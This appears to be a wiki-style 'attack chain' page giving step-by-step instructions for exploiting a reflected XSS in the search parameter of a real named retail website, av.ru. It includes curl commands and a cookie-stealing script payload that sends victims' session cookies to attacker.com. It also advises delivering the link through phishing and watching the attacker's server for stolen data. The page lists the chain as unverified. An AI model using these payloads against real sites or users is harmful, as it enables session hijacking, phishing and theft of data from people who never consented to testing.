

# Reflected XSS in Search Query Parameter Leading to JavaScript Execution on av.ru

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the search query parameter on the Azbuka Vkusa website (av.ru), allowing arbitrary JavaScript execution in victims' browsers for session hijacking or data theft.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- [[Burp Suite]] or similar proxy for interception (optional)

### Target Environment

- Web platform
- Access to https://av.ru/collections/* endpoint
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- Public internet access to the target site
- No credentials needed for reflected XSS
- Victim interaction required (e.g., clicking malicious link)

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint

procedure: [[procedures/Identify-Reflected-XSS-Endpoint]]

**Objective**: Locate the reflected XSS vulnerability in the 'q' parameter on the collections page to confirm unsanitized input reflection.

**Instructions**: Navigate to https://av.ru/collections/* and append a test payload to the 'q' parameter, such as ?q=<script>alert(1)</script>. Observe if the payload is reflected in the page source without encoding.

Use a browser or [[commands/curl-test-xss]] to send a GET request:

```bash
curl "https://av.ru/collections/some-category?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E"
```

**Expected Output**: The response HTML contains the unescaped <script>alert(1)</script> tag, confirming reflection.

**Success Indicators**:
- Payload appears in page source without HTML entity encoding
- Alert box pops up when loaded in a browser

### Step 2: Inject and Execute XSS Payload

procedure: [[procedures/Inject-XSS-Payload-into-q-Parameter]]

**Objective**: Craft and deliver a malicious payload via the 'q' parameter to execute JavaScript in the victim's browser, enabling cookie theft or phishing.

**Instructions**: Construct a URL with a payload like ?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script> and trick the victim into visiting it (e.g., via phishing email).

Test the payload using [[commands/curl-inject-xss]]:

```bash
curl "https://av.ru/collections/some-category?q=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Fattacker.com%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%3C%2Fscript%3E" -v
```

Monitor the attacker's server for exfiltrated data.

**Expected Output**: Victim's browser redirects to attacker's site with stolen cookies appended to the URL.

**Success Indicators**:
- JavaScript executes (e.g., alert or redirect observed)
- Sensitive data like session cookies received on attacker's server

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS in 'q' parameter without sanitization
2. Executed arbitrary JavaScript to steal browser cookies
3. Demonstrated potential for session hijacking or phishing attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
